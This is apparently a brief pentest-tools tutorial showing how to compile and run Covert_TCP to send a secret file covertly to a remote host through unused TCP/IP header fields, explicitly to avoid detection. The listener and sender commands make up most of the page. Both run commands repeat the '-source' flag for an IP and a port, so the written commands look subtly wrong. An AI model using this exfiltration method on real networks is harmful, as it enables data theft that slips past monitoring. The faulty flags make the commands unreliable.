 ```yaml
---
path: "/tutorials/securitypentesttools/covert_tcp"
date: "2020-04-06"
title: "Covert_TCP"
---
```


Covert_TCP allows data to be exfiltrated via the unused fields present in TCP/IP headers. This is a useful technique to avoid detection when exfiltrating data. 

We're going to exfiltrate a text file using Covert_TCP. You'll need to set up a sender and a listener device. Once you've downloaded covert_tcp.c to your sender you'll have to compile it.

```bash
cc -o covert_tcp covert_tcp.c
```

On the destination machine do the following:

```bash
cc -o covert_tcp covert_tcp.c
./covert_tcp -dest <destinationIP> -source <sourceIP> -source <sourcePort> -dest_port <destinationPort> -server -file <myDirectory>
```

This has now set it up to receive a file via Covert_TCP. 

Now we'll need to do the following on the sender:

```bash
cc -o covert_tcp covert_tcp.c
./covert_tcp -dest <destinationIP> -source <sourceIP> -source <sourcePort> -dest_port <destinationPort> -file <mySecretFile>
```

Once you enter this command you will see data start to come in on the receiver. In essence this is how you can covertly send data to a remote host.